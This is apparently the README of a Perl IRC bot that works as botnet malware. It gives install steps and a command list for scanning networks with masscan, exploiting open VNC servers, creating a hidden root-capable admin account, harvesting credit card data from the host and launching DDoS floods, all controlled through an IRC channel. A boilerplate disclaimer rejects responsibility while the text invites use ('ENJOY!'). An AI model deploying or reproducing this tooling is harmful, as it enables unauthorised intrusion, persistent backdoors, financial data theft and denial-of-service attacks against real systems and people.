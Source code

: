 # I am not responsible for any actions you make with this program.
# You will not use this program to commit illegal crimes.
# You take entire responsability if you damage your or someone else's computer.

This code is an IRC BOT that can connect to an IRC server with SSL
The main purpose of this bot is to scan for Open/Unsecured VNC servers.
The bot can also search for credit card informations in the computer that the bot is running.
There is also a DDoS module made in Python, for taking out the target from the network.

# ---INSTALLATION---

git clone https://github.com/independentcod/PerlIRCSSL_VNCbypass.git
cd PerlIRCSSL_VNCbypass
chmod +x *
# (if using Debian, Kali or Ubuntu) 
./debian-installer.sh
# (elseif running CentOS)
./centos-installer.sh

# ----COMMANDS----
# NOTE:The commands can be done via PRIVATE MESSAGE and CHANNEL also.
# ----------------
# NEW COMMAND: @.getssh <= This will make a random admin account/password with sudo powers (use: sudo su :to get root access)
# ----------------
# Using this command will start masscan on your Local Area Network, or the LAN which the bot is installed on.
@.scan 192.168.0.0-192.168.255.255 
# This needs to be done before each @.exploit
@.format 
# This runs the VNC exploit and reports the working VNCs to the channel
@.exploit 
# This kills the exploit run
@.stopexploit 

# This will scan computer for credit card info and report in the channel. (REMOVED, will see if I put it back on later...)
@.ccplz
# This will give you the current running version. 
@.version

# DDoS Tool has been fixed and hits hard!
# @.ddos <ip> <port> <UDP?(y/n>> <times> <threads>
@.ddos 127.0.0.1 8080 n 10000 1000 
# This kills the running ddos.
@.ddos.stop

# ---NOTE---
# In order for bot to work you need to be operator in the channel, it also must be registered with services.
# Follow the step-by-steps installations and you are done.
# ENJOY!

